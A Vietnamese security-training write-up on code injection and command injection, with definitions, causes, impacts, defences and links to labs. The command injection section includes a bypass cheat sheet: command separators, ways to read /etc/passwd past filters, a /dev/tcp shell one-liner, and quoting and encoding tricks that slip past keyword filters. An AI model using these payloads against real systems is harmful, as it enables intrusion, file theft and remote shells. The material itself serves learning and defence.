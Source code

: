 ```
Task 10:
+ Tìm hiểu về lỗ hổng code injection  và command injection.(Khái niệm , nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Nêu ra điểm khác nhau giữa hai lỗi.
+ Làm lab demo hai lỗi trên.
```

# Code Injection
### Khái niệm
Code Injection là loại tấn công mà kẻ tấn công có thể chèn mã độc vào ứng dụng. Khi đó, ứng dụng thực thi đoạn mã độc đó và gây ảnh hưởng đến người dùng, máy chủ.
### Nguyên nhân
Nguyên nhân chính của `code injection` là việc không kiểm tra đầu vào đúng cách, sử dụng các thư viện không an toàn hoặc không cập nhật, hay không sử dụng các biện pháp bảo vệ bảo mật như mã hóa dữ liệu. Ngoài ra còn do server có các chức năng hoặc  thực hiện các hàm nguy hiểm mà người dùng kiểm soát được như: `eval()`, `system()`,...
### Tác hại 
- Tác hại của `code injection` có thể rất nghiêm trọng. Kẻ tấn công có thể truy cập và thay đổi dữ liệu, lấy cắp thông tin nhạy cảm, thực hiện các hành động trái phép trên hệ thống máy chủ, thậm chí kiểm soát toàn bộ máy chủ.
- Ngoài ra còn có thể dẫn đến các cuộc tấn công khác như: SQL injection, XXS, Command injection, ...
### Cách phòng chống
- Xác thực đầu vào như sử dụng whitelist: chỉ cho phép các từ kiểm soát được.
- Mã hóa: escape HTML entities để hạn chế nguy cơ thành mã độc hoặc mã hóa dữ liệu bằng cách khác trước khi được lưu trữ hoặc chuyển lên internet.
- Sử dụng tường lửa, các công cụ phát hiện tấn công và thường xuyên cập nhật thư viện an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/Code%20Injection%20Lab">lab</a>

# Commmand Injection
### Khái niệm
Command injection là lỗ hổng mà kẻ tấn công có thể thực thi câu lệnh hệ điều hành trên máy chủ của ứng dụng đó
### Nguyên nhân
Nguyên nhân chính của command injection là thiếu kiểm tra đầu vào của ứng dụng hoặc sử dụng các hàm không an toàn trong xử lý đầu vào như: `system()`, `eval()`, `exec()`, ...
Khi những lỗ hổng này xảy, kẻ tấn công có thể thực hiện các hành động trái phép nh như xem, sửa đổi hoặc xóa dữ liệu, kiểm soát toàn bộ hệ thống, và thực hiện các cuộc tấn công khác như DoS,...
### Tác hại
Tác hại của command injection rất nghiêm trọng. Kẻ tấn công có thể kiểm soát hoàn toàn hệ thống, đọc và sửa đổi các tập tin quan trọng, truy cập và thay đổi cơ sở dữ liệu, thực hiện các hành động trái phép trên mạng. Ngoài ra còn có thể dẫn đến các cuộc tấn công khác để đạt được mục đích kể tấn công.
### Bypass:
- Exploit: `; ls` `&& ls`, `| ls`, `|| ls`,...
- Bypass space:
  - Sử dụng `<`: `cat</etc/passwd`
  - Sử dụng `$IFS`: `cat$IFS/etc/passwd`
  - Hoặc dùng shell: `sh</dev/tcp/127.0.0.1/4242`
  - ...
- Bypass words:
  - quote: `w'h'o'am'i`, `w"h"o"am"i`
  - blackslash, slash: `w\ho\am\i`, `/\b\i\n/////s\h`
  - $@: `who$()ami`
  - $(): `who$()ami`
  - `/usr/bin/who*mi` => `/usr/bin/whoami`
  - `$0` => bash
- Bypass characters:
  - `${HOME:0:1}`, `. | tr '!-0' '"-1'`, `${PATH:0:1}` => `/`
  - `${LS_COLORS:10:1}` => `;`
- Encoding hex: `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64`, `2f6574632f706173737764` => `/etc/passwd`
- RCE with 4 or 5 char: <a href="https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#rce-with-5-chars">here</a>
### Phòng chống
- Kiểm tra xác thực đầu vào: Dùng whitelist để cho phép các câu lệnh an toàn được thực thi, loại bỏ các ký tự có thể chèn mã đọc như: `;`, `"`, `'`, `|`, `&`,...
- Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng, ...
- Ngoài ra cần thường xuyên cập nhật ứng dùng, thư viên an toàn.
### Lab
<a href="https://github.com/caodchuong312/KCSC-Training/tree/main/task10/CommandInjectionLab">lab</a>

  
## Khác nhau giữa Code injection và Command injection

- Code injection đề cập đến việc chèn 1 đoạn code độc hại và sẽ được thực thi trên ứng dụng đó. Khi ứng dụng chạy PHP thì sẽ chỉ chèn được code PHP hay với Nodejs thì là JavaScript
- Command injection đề cập việc chèn 1 câu lệnh hệ thống trên máy chủ. Vì vậy câu lệnh tuy thuộc vào hệ điều hành máy chủ web hoặc là loại shell mà nó sử dụng. Lỗ hổng này cho kẻ tấn cống dễ dàng tấn công vào server hơn hoặc mở rộng chức năng của mặc định của ứng dụng, thực thi trực tiếp mà không cần chèn thêm code.
